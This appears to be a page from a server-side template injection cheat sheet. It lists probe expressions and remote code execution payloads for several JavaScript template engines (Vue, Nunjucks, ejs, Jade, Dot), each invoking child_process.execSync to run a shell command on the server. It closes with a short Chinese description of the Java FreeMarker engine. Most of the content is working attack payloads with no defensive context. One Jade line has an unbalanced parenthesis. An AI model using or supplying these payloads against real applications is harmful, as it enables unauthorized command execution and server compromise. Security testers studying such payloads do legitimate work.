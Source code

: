 ### JavaScript

#### VueJs

```javascript
{{2*3}}
{{constructor.constructor("return global.process.mainModule.require('child_process').execSync('ls').toString()")()}}
```

#### Nunjucks

```javascript
{{2*3}}
{{range.constructor("return eval(\"global.process.mainModule.require('child_process').execSync('ls').toString()\")")()}}
```

#### ejs

```javascript
<%=2*3 %>
<%=global.process.mainModule.require('child_process').execSync('ls').toString() %>
```

#### Dust

```javascript
{#1+1}
{name}{len}
{1+1}
{@1+1}
```

#### Jade

```javascript
#{2*3}
#{global.process.mainModule.require('child_process').execSync('ls').toString())}
```

#### Dot

```javascript
{{=2*3}}
{{= global.process.mainModule.require('child_process').execSync('ls').toString() }}
```



### Java

#### Freemarker

FreeMarker 是一款 模板引擎： 即一种基于模板和要改变的数据， 并用来生成输出文本(HTML网页，电子邮件，配置文件，源代码等)的通用工具。 它不是面向最终用户的，而是一个Java类库，是一款程序员可以嵌入他们所开发产品的组件。
